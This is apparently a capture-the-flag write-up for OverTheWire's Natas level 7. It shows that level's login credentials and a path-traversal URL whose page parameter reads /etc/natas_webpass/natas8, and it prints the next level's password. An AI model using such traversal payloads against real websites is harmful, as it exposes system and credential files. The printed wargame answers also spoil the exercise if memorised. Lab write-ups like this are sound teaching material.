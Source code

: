 # Natas Level 7

```bash
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7.png" />
    <div align="center">Natas 7</div>
</figure>

We can see two links:
* [Home](http://natas7.natas.labs.overthewire.org/index.php?page=home)
* [About](http://natas7.natas.labs.overthewire.org/index.php?page=about)

Lets follow them:

<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-home.png" />
    <div align="center">Natas 7 - Home</div>
</figure>
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-about.png" />
    <div align="center">Natas 7 - About</div>
</figure>

Now lets take a look in the source of the homepage:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-home-source.png" />
    <div align="center">Natas 7 - Home page source</div>
</figure>

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
If we take a lose look, we can see that both pages have the same URL, and the wanted page is being sent as a GET parameter:
```html
http://natas7.natas.labs.overthewire.org/index.php?page=home
```
Lets try a path traversal:
```html
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas7-path-traversal.png" />
    <div align="center">Natas 7 - Path traversal</div>
</figure>

Nice!

We got the password for the next level: **DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**